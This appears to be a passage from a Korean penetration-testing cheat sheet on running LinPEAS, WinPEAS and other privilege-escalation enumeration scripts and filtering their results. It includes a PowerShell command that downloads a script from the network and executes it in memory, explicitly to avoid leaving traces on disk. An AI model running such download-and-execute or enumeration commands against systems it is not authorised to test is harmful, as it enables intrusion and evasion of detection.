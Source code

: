 ```bash
grep -E "99%" linpeas_output.txt  # 99% 확률 취약점만
grep -E "95%" linpeas_output.txt  # 95% 확률 취약점
```

### 🎯 WinPEAS 고급 활용

```cmd
:: WinPEAS 고급 검사 조합
:: 메모리에서 직접 실행 (디스크 흔적 없음)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat')"

:: 특정 도메인 환경 검사
winPEAS.exe domain

:: 클라우드 환경 검사 (AWS, Azure, GCP)
winPEAS.exe cloud

:: 컨테이너 환경 검사
winPEAS.exe container

:: 특정 시간대 파일만 검사
winPEAS.exe filesinfo fileanalysis

:: LOLBAS 바이너리 검사
winPEAS.exe lolbas

:: 백도어 검사
winPEAS.exe malware

:: 결과 필터링
winPEAS.exe | findstr /i "vulnerable\|high\|critical"
winPEAS.exe | findstr /C:"99%" /C:"95%"
```

### 🛠️ 도구 조합 및 병렬 실행

```bash
# Linux 도구들 병렬 실행
echo "Starting parallel enumeration..."
./linpeas.sh > linpeas.txt 2>&1 &
./LinEnum.sh > linenum.txt 2>&1 &
./linux-exploit-suggester.sh > exploits.txt 2>&1 &
./lse.sh -l1 > lse.txt 2>&1 &

# 모든 작업 완료 대기
wait

# 결과 통합
echo "=== LinPEAS Results ===" > combined_results.txt
cat linpeas.txt >> combined_results.txt
echo -e "\n=== LinEnum Results ===" >> combined_results.txt
cat linenum.txt >> combined_results.txt
echo -e "\n=== Exploit Suggestions ===" >> combined_results.txt
cat exploits.txt >> combined_results.txt
echo -e "\n=== LSE Results ===" >> combined_results.txt
cat lse.txt >> combined_results.txt
```
